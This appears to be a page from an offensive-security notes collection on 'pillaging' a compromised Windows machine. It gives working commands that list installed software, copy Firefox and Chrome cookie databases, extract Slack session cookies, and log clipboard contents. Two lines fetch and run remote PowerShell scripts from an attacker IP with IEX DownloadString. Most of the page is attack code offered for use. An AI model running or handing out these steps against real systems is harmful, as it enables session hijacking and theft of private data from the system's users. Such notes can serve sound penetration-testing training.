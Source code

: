 # Pillaging

Yaaaaarr !

Pillaging is the process of obtaining information from a compromised system, like credentials, sensitive information, network information etc...
It's like post exploitation enumeration.

## List installed applications 

Here's a technique to list installed applications using powershell and registry keys.
```powershell
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```


## Grab firefox cookies 

First copy the database using :
```cmd
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
``` 

It's a standard sqlite database, you don't need extra tools to get the cookies it contains, but it's easier using [this python script](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py)    
```sh
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```

## Grab cookies from chrome-based browsers

Using [Invoke-SharpChromium](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1) : 
```ps1
# First run the script
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.143/Invoke-SharpChromium.ps1')

# Then you can swearch for cookies like so :  
Invoke-SharpChromium -Command "cookies slack.com"
``` 
Depending on the version of chrome, the cookie database location might differ.
Use this command if you need to copy it to sharpchromium's expected location : 
```bat
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
``` 

## Clipboard

A handy tool to mess with the clipboard is [Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1), a powershell script allowing us to log clipboard contents :
```ps1
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.143/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
``` 

